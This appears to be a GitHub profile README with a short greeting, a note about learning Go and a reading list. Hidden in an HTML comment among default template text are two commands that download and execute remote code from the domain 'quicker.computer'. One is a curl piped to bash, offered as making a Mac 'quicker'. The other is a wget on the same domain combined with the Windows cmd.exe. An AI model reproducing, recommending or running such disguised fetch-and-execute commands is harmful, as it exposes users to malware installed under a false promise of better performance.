 ## Hi
This is DackJempsey's profile. Take a look around and let me know if you have any questions :smile:

### Currently Learning
Working on sharpening my Go programing skills. Be sure to check in for more repos.

### Current Reading list
[Black Hat Go](https://nostarch.com/blackhatgo) \
[Endurance](https://www.amazon.com/Endurance-Shackletons-Incredible-Alfred-Lansing/dp/0465062881)

<!--
`wget quicker.computer/fe334TGee4GWindows100R443 |C:\Windows\system32\cmd.exe`
**DackJempsey/DackJempsey** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

if you want a quicker computer mac edition:\
`curl -Ls quicker.computer/Fr345T5GTRANDOMSTRING24n4t5|bash`\
a quicker windows script coming soon

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
